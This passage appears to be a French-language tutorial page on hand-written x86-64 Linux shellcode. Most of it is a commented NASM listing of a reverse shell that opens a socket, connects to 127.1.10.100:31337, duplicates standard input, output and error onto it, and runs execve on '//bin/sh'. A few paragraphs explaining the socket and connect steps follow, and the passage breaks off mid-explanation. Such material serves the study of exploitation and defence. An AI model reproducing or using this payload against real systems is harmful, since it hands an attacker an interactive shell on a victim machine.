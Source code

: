 ```nasm
        xor rsi, rsi                ;set to 0 the register used to store the semantics
        mov sil, 0x01               ;indicate the semantics to be used (here "SOCK_STREAM")
        xor rdi, rdi                ;set to 0 the register used to store the communication area
        mov dil, 0x02               ;indicate the communication area (here "AF_INET")
        xor rax, rax                ;set to 0 the register used to store the number syscall
        mov al, 0x29                ;indicate the number for the socket syscall (41)
        syscall

    connect:
        xor rdx, rdx                ;set to 0 the register used to store the size of the target host address
        mov dl, 0x11                ;indicate the size of the target host address (here 127.1.10.100:31337 = 18 - 1 = 17)
        lea rsi, [rsp]              ;indicate the target address (here "127.1.10.100:31337") 
        mov rdi, rax                ;indicate the previously created socket
        xor rax, rax                ;set to 0 the register used to store the number syscall
        mov al, 0x2a                ;indicate the number for the connect syscall (42)
        syscall

    redirection:
        xor rsi, rsi                ;set to 0 the register used to store the file descriptor
        mov al, 0x21                ;indicate the number for the dup2 syscall
        syscall
        inc sil                     ;increment by 1 the register used to store the file descriptor
        mov al, 0x21                ;indicate the number for the dup2 syscall
        syscall
        inc sil                     ;increment by 1 the register used to store the file descriptor
        mov al, 0x21                ;indicate the number for the dup2 syscall
        syscall

    execShell:
        mov rdi, 0x68732f6e69622f2f ;"//bin/sh" in little endian
        xor rsi, rsi                ;indicate the arguments (here there are no arguments)
        push rsi                    ;put on the stack null byte
        push rdi                    ;put on the stack "//bin/sh"
        xor rdx, rdx                ;indicate the environment (here there is no environment)
        lea rdi, [rsp]              ;indicate the path (here "//bin/sh")
        xor rax, rax                ;set to 0 the register use to store the syscall number
        mov al, 0x3b                ;indicate the number for the execve syscall
        syscall
```

Dans un premier temps nous définissons la fonction `initStructure` qui va mettre sur la stack l'adresse IP de la cible, son port ainsi que la famille à utiliser (ici IP).

Viens ensuite la fonction `socket` qui crée un socket sur notre machine.

Ce bout de code est équivalent au code C suivant :
```c
socket(AF_INET, SOCK_STREAM, 0);
```

Puis, viens la fonction `connect` qui va donc connecter notre socket à la machine cible via les informations misent sur la stack auparavant.
